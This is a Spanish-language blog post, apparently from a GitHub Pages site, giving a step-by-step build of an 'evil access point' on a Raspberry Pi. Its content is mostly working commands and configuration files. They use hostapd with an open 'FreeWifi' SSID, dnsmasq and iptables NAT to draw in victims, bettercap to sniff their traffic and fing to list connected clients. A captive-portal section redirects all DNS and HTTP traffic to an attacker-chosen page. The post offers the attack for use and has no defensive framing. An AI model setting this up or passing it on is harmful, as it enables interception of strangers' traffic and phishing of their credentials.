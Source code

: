 ```yaml
---
layout: post
title: Evil Access Point
---
```


Evil Access Point with Raspberry Pi

![_config.yml]({{ site.baseurl }}/images/20160711.jpeg)


# Materiales
* TL-WN722N (tarjeta de red tp-link)


# Instalando las herramientas
```
sudo apt-get update && sudo apt-get dist-upgrade -y
sudo apt-get install -y hostapd dnsmasq wireless-tools iw
```

### Instalando bettercap
```
sudo apt-get install curl ruby-dev libpcap-dev -y
sudo gem install bettercap
```

# Configuracion
Para trabajar recomiendo crear una carpeta con algun nombre caracteristico como `fakeap`. Luego, crear 3 archivos de configuracion usando algun editor de texto (dentro de la carpeta creada). En el caso de iptables, hay que darle permisos de ejecucion `chmod +x iptables` Suponiendo que trabajaremos con `eth0` y `wlan0`

### iptables
```
ifconfig wlan0 10.0.0.1/24 up
iptables -t nat -F
iptables -F
iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
iptables -A FORWARD -i wlan0 -o eth0 -j ACCEPT
echo '1' > /proc/sys/net/ipv4/ip_forward
```

### dnsmasq.conf
```
interface=wlan0
dhcp-range=10.0.0.10,10.0.0.250,12h
dhcp-option=3,10.0.0.1
dhcp-option=6,10.0.0.1
server=8.8.8.8
log-queries
log-dhcp
```

### hostapd.conf
```
interface=wlan0
driver=nl80211
ssid=FreeWifi
channel=6
```

# Automatizando la configuracion
Creamos un archivo con algun nombre caracteristico, por ejemplo `initconfig` luego, darle los correspondientes permisos de ejecucion `chmod +x initconfig`

```bash
#!/bin/bash

# Configuraciones iniciales
upstream=eth0
phy=wlan0

# levantando interfaz
ifconfig $phy 10.0.0.1/24 up

# configurando iptables
iptables -t nat -F
iptables -F
iptables -t nat -A POSTROUTING -o $upstream -j MASQUERADE
iptables -A FORWARD -i $phy -o $upstream -j ACCEPT
echo '1' > /proc/sys/net/ipv4/ip_forward

# Configurando dnsmasq
cat <<EOF > dnsmasq.conf
interface=$phy
dhcp-range=10.0.0.10,10.0.0.250,12h
dhcp-option=3,10.0.0.1
dhcp-option=6,10.0.0.1
server=8.8.8.8
log-queries
log-dhcp
EOF

# Configurando hostapd
cat <<EOF > hostapd.conf
interface=$phy
driver=nl80211
ssid=FreeWifi
channel=6
EOF
```

# Evil Access Point UP!
Ahora que tenemos las configuraciones hechas, nos toca levantar el Access Point. Para eso ejecutaremos en cada terminal distinta lo siguiente:

```
sudo ./initconfig

sudo dnsmasq -C dnsmasq.conf -d

sudo hostapd hostapd.conf
```

### Bettercap
Iniciamos el sniffer (podemos ocupar cualquiera mientras realice sniffing pasivo, pero esta vez elegí bettercap)

```
sudo su
bettercap -I wlan0 --no-discovery --no-spoofing -X
```

# Revisando la red
Para poder ver quien esta en la red interna se recomienda descargar fing desde la página oficial: [https://www.fing.io/download/](https://www.fing.io/download/){:target="_blank"}

```
wget https://www.fing.io/wp-content/uploads/2016/10/overlook-fing-3.0.deb
sudo dpkg -i overlook-fing-3.0.deb
sudo fing 10.0.0.1/24
```

# Portal cautivo
Para realizar un ataque de portal cautivo no es necesario tener conexion a internet, solo basta levantar el Fake Access Point, pero cambiando las reglas. La idea de este ataque es dejar arriba el servicio de apache con alguna pagina a conveniencia.

```bash
iptables -F
iptables -F -t nat
#iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
#iptables -A FORWARD -i $phy -o eth0 -j ACCEPT
iptables -t nat -A PREROUTING -i wlan0 -p udp --dport 53 -j DNAT --to 10.0.0.1
iptables -t nat -A PREROUTING -p tcp --dport 80 -j DNAT --to-destination 10.0.0.1
iptables -P FORWARD DROP
```

# En caso de ocupar 2 wlans
Muchas veces no tenemos acceso por ethernet, por lo que estamos obligados a usar wifi para recibir `wlan0` y emitir `wlan1` señal. Para estos casos las configuraciones varian un poco. (Asumiendo de que tambien hay que modificar las configuraciones anteriores como `iptables`, `dnsmasq.conf` y `hostapd.conf` con sus interfaces respectivos)

### Raspbian
Con un editor de texto hay que modificar el archivo `/etc/network/interfaces`, comentando las lineas que tengan relación con la interfaz
 que ocuparás para crear el Evil Access Point.

```
# interfaces(5) file used by ifup(8) and ifdown(8)

# Please note that this file is written to be used with dhcpcd
# For static IP, consult /etc/dhcpcd.conf and 'man dhcpcd.conf'

# Include files from /etc/network/interfaces.d:
source-directory /etc/network/interfaces.d

auto lo
iface lo inet loopback

iface eth0 inet manual

allow-hotplug wlan0
iface wlan0 inet manual
    wpa-conf /etc/wpa_supplicant/wpa_supplicant.conf

#allow-hotplug wlan1
#iface wlan1 inet manual
    #wpa-conf /etc/wpa_supplicant/wpa_supplicant.conf
```

Recomiendo reiniciar para que las configuraciones se apliquen

```
sudo reboot
```


### network-manager
Se tiene que agregar las 2 ultimas lineas del archivo `/etc/NetworkManager/NetworkManager.conf`, para evitar el conflicto entre la interfaz de red y network-manager

```
[main]
plugins=ifupdown,keyfile

[ifupdown]
managed=false

[keyfile]
unmanaged-devices=interface-name:wlan1
```

Ahora necesitamos reiniciar el servicio de network-manager

```
sudo service network-manager restart
```

# Conectarse por 3G
```
sudo apt-get install ppp
sudo wget "http://downloads.sourceforge.net/project/vim-n4n0/sakis3g.tar.gz?r=http%3A%2F%2Fsourceforge.net%2Fprojects%2Fvim-n4n0%2Ffiles%2F&ts=1363537696&use_mirror=tene~t" -O sakis3g.tar.gz
sudo tar -xzvf sakis36.tar.gz
sudo apt-get install sg3-utils
sudo chmod +x sakis3g
sudo ./sakis3g --interactive
```
